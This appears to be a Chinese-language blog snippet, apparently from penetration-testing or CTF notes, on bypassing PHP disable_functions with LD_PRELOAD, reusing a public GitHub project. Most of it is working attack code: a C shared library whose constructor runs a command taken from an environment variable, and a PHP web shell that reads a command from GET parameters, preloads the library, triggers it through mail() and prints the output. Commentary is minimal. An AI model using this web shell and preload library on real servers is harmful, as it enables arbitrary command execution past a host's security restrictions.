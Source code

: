 这里直接使用github上面大佬现成的so和php

 [https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD) 

我们来看看

so代码

```cobol
#define _GNU_SOURCE
 
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
 
 
extern char** environ;
 
__attribute__ ((__constructor__)) void preload (void)
{
    // get command line options and arg
    const char* cmdline = getenv("EVIL_CMDLINE");
 
    // unset environment variable LD_PRELOAD.
    // unsetenv("LD_PRELOAD") no effect on some 
    // distribution (e.g., centos), I need crafty trick.
    int i;
    for (i = 0; environ[i]; ++i) {
            if (strstr(environ[i], "LD_PRELOAD")) {
                    environ[i][0] = '\0';
            }
    }
 
    // executive command
    system(cmdline);
}
```

就是获取指令 然后不断 更新环境变量

```php
<?php
    echo "<p> <b>example</b>: http://site.com/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so </p>";
 
    $cmd = $_GET["cmd"];
    $out_path = $_GET["outpath"];
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";
 
    putenv("EVIL_CMDLINE=" . $evil_cmdline);
 
    $so_path = $_GET["sopath"];
    putenv("LD_PRELOAD=" . $so_path);
 
    mail("", "", "", "");
 
    echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>"; 
 
    unlink($out_path);
?>
```
